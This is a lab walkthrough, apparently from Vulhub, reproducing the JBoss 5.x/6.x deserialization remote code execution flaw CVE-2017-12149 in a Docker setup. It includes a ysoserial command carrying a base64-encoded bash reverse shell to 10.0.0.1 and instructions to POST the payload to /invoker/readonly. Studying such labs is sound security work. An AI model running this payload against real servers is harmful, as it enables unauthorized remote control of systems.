




JBoss 5.x/6.x Deserialization Remote Code Execution (CVE-2017-12149)¶
Red Hat JBoss Application Server is a JavaEE-based open source application server. In JBoss AS 5.x/6.x, the ReadOnlyAccessFilter filter in the HttpInvoker component attempts to deserialize data streams from clients without performing any security checks, resulting in a deserialization vulnerability.
References:
- https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
- https://access.redhat.com/security/cve/cve-2017-12149
Environment Setup¶
Run the following command to start the JBoss AS 6.1.0:
docker compose up -d
The initial setup will take 1-3 minutes. After initialization is complete, visit http://your-ip:8080/ to see the JBoss default page.
Vulnerability Reproduce¶
The vulnerability exists in the /invoker/readonly request, where the server performs Java deserialization on the POST content submitted by users:

Therefore, we can use conventional Java deserialization vulnerability testing methods to reproduce this vulnerability.
Generate reverse shell payload¶
We use bash for the reverse shell, but since Runtime.getRuntime().exec() cannot use pipe operators and other bash methods directly, we need to encode it first.
Tool: http://www.jackson-t.ca/runtime-exec-payloads.html

Generate serialized data¶
We use ysoserial to generate the serialized data. Since Vulhub uses a newer version of Java, we choose the CommonsCollections5 gadget:
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
Send the POC¶
The generated POC is poc.ser. Simply send this file as the POST Body to /invoker/readonly:

Successfully obtained reverse shell:
